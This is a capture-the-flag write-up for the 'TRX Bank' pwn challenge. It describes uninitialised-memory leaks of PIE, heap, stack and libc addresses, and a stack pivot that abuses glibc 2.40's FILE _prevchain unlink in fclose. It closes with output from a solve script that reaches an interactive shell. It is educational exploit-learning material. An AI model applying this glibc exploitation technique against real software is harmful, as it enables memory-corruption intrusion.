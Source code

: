 # TRX Bank (1 solve)

> To all our Valued Customers, at TRX Bank we aim to provide only
> the top-notch banking and customer experience; all reports about
> so-called "data leaks" are baseless slander from our competitors.
> nc bank.ctf.theromanxpl0.it 7010

---

I didn't solve this challenge on time (I was busy with other things).
However, this challenge is really interesting. "leave", "Marco"
and other solvers have given good hints after the CTF ended.

## Vulnerabilities

What we have:
* a un-init leak in `transfer()` (send `-` in transaction).
  If before calling `transfer`, we call:
  + `deposit()`:
    => leak pie (deposit + 266)
  + `close_account()`:
    => leak heap via index 29 of `tmp` buf.
  + `open_account()`:
    => leak stack address.
  + invalid option so `puts("invalid")` is called:
    => leak libc address.

What we can do with that:
* use `secret_backdor()` (check PIE), to write in range `fp_rand + 0x60:0xd8`.
  but since codecvt is memsetted to 0, we cannot use FSOP.
  + could set `fp_rand->_fileno = 0` to read from stdin instead of urandom.
  + point `fp->_lock` (offset 0x28) to a controlled mem, `(u64)fp->_lock = 0`
    whenever fd is read.

NEWS in glibc 2.40: `FILE._pad1` renamed to `_prevchain` ([Code][1]).
So `fclose` calls this:
```c
void
_IO_un_link (struct _IO_FILE_plus *fp)
{
  // redacted ...
      if (_IO_list_all == NULL)
  ;
      else if (_IO_vtable_offset ((FILE *) fp) == 0)
  {
    FILE **pr = fp->file._prevchain;
    FILE *nx = fp->file._chain;
    *pr = nx;
    if (nx != NULL)
      nx->_prevchain = pr;
```

So basically it is:
```
*(u64*)_prevchain = _chain
*(u64*)((u64)_chain + 0xb8) = _prevchain
```

It we set `fclose` saved-rbp to `_prevchain`, `_chain ` to rop address on heap,
we'll pivot the stack via `pop rbp; ret` (in `fclose()`) and `leave; ret`
(in `leave()`) gadgets.

[1]: https://elixir.bootlin.com/glibc/glibc-2.40/source/libio/genops.c#L82

## Caveats

* The `fd_rand` already pre-reads / buffers 0x1000 bytes from `/dev/urandom`.
  So you have to drain that buffer (by calling open and free acounts repeatedly)
  to make it read from stdin by overriding `fp_rand->_fileno = 0` in
  `secret_backdor()`.

* My solve script runs painfully slow on the remote (in fact it's just timeout).
  Kinda hard to optimize it with all the bruteforce for the leaks.

## Solve script

[run.py](./run.py)

Demo on local machine:
```bash
> py run.py
[+] Starting local process './chal_patched': pid 1095510
[*] -- step 1: leaking
[+] leak pie: Done
[*] LEAK: pie_leak = 0x55984e7ae545
[+] leak heap: Done
[*] LEAK: heap_leak = 0x559869949a00
[*] CALC: fp_rand_lock_addr = 0x559869948390
[+] leak stack: Done
[*] LEAK: stack_leak = 0x7fff0309cb88
[*] CALC: fclose_rbp_ptr = 0x7fff0309ca20
[+] leak libc: Done
[*] LEAK: libc_leak = 0x7f8fb928d05a
[*] -- step 2: write ropchains from stdin
[+] set fp_rand->_fileno=0 to prevent reading more from urandom: Done
[*] fp_rand buffers 0x1000 bytes from urandom
[*] we read 0x3bd bytes, remaining 0xc43 bytes
[+] draining fp_rand->buffer: Done
[*]     remaining 0x7 bytes
[*] Loaded 116 cached gadgets for './glibc/libc.so.6'
[*] remember to restore fd to be used in fclose(fp_rand)
[+] duration: 2.1514997482299805
[*] Switching to interactive mode
We're sorry to see you go! Your refund will arrive approximately in 83 days!
$ pwd
/home/hacker/ctfs/2025/trx/pwn/bank/dist
```
